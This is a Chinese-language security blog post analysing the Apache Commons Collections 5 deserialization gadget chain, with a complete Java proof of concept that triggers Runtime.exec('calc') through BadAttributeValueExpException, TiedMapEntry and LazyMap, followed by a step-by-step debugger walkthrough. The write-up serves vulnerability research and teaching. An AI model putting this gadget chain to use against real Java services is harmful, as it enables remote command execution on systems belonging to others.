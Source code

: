 > 原文链接: https://www.anquanke.com//post/id/220697 


# Java安全之Commons Collections5分析


                                阅读量   
                                **126360**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t014ac313fdc963af46.jpg)](https://p2.ssl.qhimg.com/t014ac313fdc963af46.jpg)



## 0x00 前言

在后面的几条CC链中，如果和前面的链构造都是基本一样的话，就不细讲了，参考一下前面的几篇文。

在CC5链中ysoserial给出的提示是需要JDK1.8并且`SecurityManager`需要是关闭的。先来介绍一下`SecurityManager`是干嘛的。`SecurityManager`也就是java的安全管理器，当运行未知的Java程序的时候，该程序可能有恶意代码（删除系统文件、重启系统等），为了防止运行恶意代码对系统产生影响，需要对运行的代码的权限进行控制，这时候就要启用Java安全管理器。该管理器默认是关闭的。



## 0x01 POC分析

```
package com.test;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class cc5 `{`
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException `{`
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] `{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] `{`
                        String.class, Class[].class `}`, new Object[] `{`
                        "getRuntime", new Class[0] `}`),
                new InvokerTransformer("invoke", new Class[] `{`
                        Object.class, Object[].class `}`, new Object[] `{`
                        null, new Object[0] `}`),
                new InvokerTransformer("exec",
                        new Class[] `{` String.class `}`, new Object[]`{`"calc"`}`)`}`);
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        try`{`
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc5"));
            outputStream.writeObject(poc);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc5"));
            inputStream.readObject();
        `}`catch(Exception e)`{`
            e.printStackTrace();
        `}`
    `}`
`}`
```

前面的上半段和CC1链是一模一样的，主要来分析在这两者中不同的部分。

```
HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);
```

前面的new了一个`HashMap`传入到`LazyMap`里面，同时也传入了`ChainedTransformer`实例化对象，当调用get方法的时候，就会调用到`ChainedTransformer`的`transform`f方法，这个没啥好说的，老面孔了。前面也分析过好几回了。主要的是下面的这一段代码。

```
TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);
```

`TiedMapEntry`是一个新生面孔，来查看一下该类源码。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019544d1c6aa8e1ef1.png)

该类的构造方法需要2个参数。所以我们的POC代码中，传入了一个`LazyMap`实例化对象和一个`123`的字符做占位。

[![](https://p2.ssl.qhimg.com/t0162974b641ed252f8.png)](https://p2.ssl.qhimg.com/t0162974b641ed252f8.png)

而在`getValue`方法里面就会去调用到刚刚赋值的map类get方法。前面我们传入的是`LazyMap`对象，这时候调用get方法的话，就和前面的串联起来达成命令执行了。这里先不做分析，来到下一步，查看一下，哪个地方会调用到该方法。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t015bb0c12fe7c2058e.png)

而在`toString`方法里面就会去调用到`getValue`方法。

```
BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);
```

再来看下面一段代码，new了一个`BadAttributeValueExpException`的对象，并且反射获取`val`的值，将`val`的值设置为`TiedMapEntry`实例化对象。

[![](https://p4.ssl.qhimg.com/t016c94bf8052ebf9ef.png)](https://p4.ssl.qhimg.com/t016c94bf8052ebf9ef.png)

在`BadAttributeValueExpException`的`readObject`方法会获取到`val`的值，然后赋值给`valObj`变量,然后调用`valObj`的`toString`方法。



## 0x02 CC5链调试

在`readObject`复写点打个断点，也就是`BadAttributeValueExpException`的`readObject`方法。

[![](https://p5.ssl.qhimg.com/t012a895e7cb0d9d588.png)](https://p5.ssl.qhimg.com/t012a895e7cb0d9d588.png)

上面断点的地方会去获取`val`的值，赋值给`valObj`，前面我们使用反射将`val`设置为`TiedMapEntry`的对象。

这里会去调用`valObj`的`toString`方法,也就是`TiedMapEntry`的`toString`方法。跟进一下该方法，查看调用。

[![](https://p5.ssl.qhimg.com/t015833dd899fd887e9.png)](https://p5.ssl.qhimg.com/t015833dd899fd887e9.png)

这里面会去调用`getKey`和`getValue`方法，这里选择跟踪`getValue`方法。

[![](https://p0.ssl.qhimg.com/t017e1d5724c3b0b0a6.png)](https://p0.ssl.qhimg.com/t017e1d5724c3b0b0a6.png)

这里的`this.map`为`LazyMap`实例化对象，是在创建`TiedMapEntry`对象的时候传参进去的。再跟进一下get方法就和前面调试CC1链的步骤一样了。

[![](https://p2.ssl.qhimg.com/t0143109a03e2badb35.png)](https://p2.ssl.qhimg.com/t0143109a03e2badb35.png)

这里会去调用`this.factory`的`transform`,也就是`ChainedTransformer`的`transform`。再来跟进一下。

[![](https://p1.ssl.qhimg.com/t01335404528e45e866.png)](https://p1.ssl.qhimg.com/t01335404528e45e866.png)

接着就是遍历调用数组里面的`transform`方法。第一个值为`ConstantTransformer`，会直接返回传参的值。

[![](https://p1.ssl.qhimg.com/t01751e6e8d6c7eeb43.png)](https://p1.ssl.qhimg.com/t01751e6e8d6c7eeb43.png)

这里返回的是`Runtime`，将该值传入第二次的参数里面调用`transform`方法。

[![](https://p2.ssl.qhimg.com/t0149ce559baa654199.png)](https://p2.ssl.qhimg.com/t0149ce559baa654199.png)

[![](https://p3.ssl.qhimg.com/t01d4ec072e77360e12.png)](https://p3.ssl.qhimg.com/t01d4ec072e77360e12.png)

第二次遍历的值是`InvokerTransformer`对象， 这里的`transform`方法会反射去获取方法并且进行执行。第二次执行返回的是`Runtime.getRuntime`的实例化对象。再传入到第三次执行的参数里面去执行。

[![](https://p5.ssl.qhimg.com/t015c79bcf165b65300.png)](https://p5.ssl.qhimg.com/t015c79bcf165b65300.png)

第三次去执行则是获取返回他的`invoke`方法,传入给第四次执行的参数里面。

[![](https://p2.ssl.qhimg.com/t01aadceec14dbe5f28.png)](https://p2.ssl.qhimg.com/t01aadceec14dbe5f28.png)

第四次执行里面的`this.iMethodName`为`exec`,`this.iArgs`为`calc`。执行完成这一步过后就会去执行我们设置好的命令，也就是calc。弹出计算器。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012291f657dcf53ae4.png)

### <a class="reference-link" name="%E8%B0%83%E7%94%A8%E9%93%BE"></a>调用链

```
BadAttributeValueExpException.readObject-&gt;TiedMapEntry.toString
-&gt;LazyMap.get-&gt;ChainedTransformer.transform
-&gt;ConstantTransformer.transform-&gt;InvokerTransformer.transform
-&gt;Method.invoke-&gt;Class.getMethod
-&gt;InvokerTransformer.transform-&gt;Method.invoke
-&gt;Runtime.getRuntime-&gt; InvokerTransformer.transform
-&gt;Method.invoke-&gt;Runtime.exec
```



## 0x03 结尾

其实在该链的后面中，并没有写太详细，因为后面和CC1链中的都是一模一样的。如果没有去调试过的话，建议先去调试一下CC1的链。
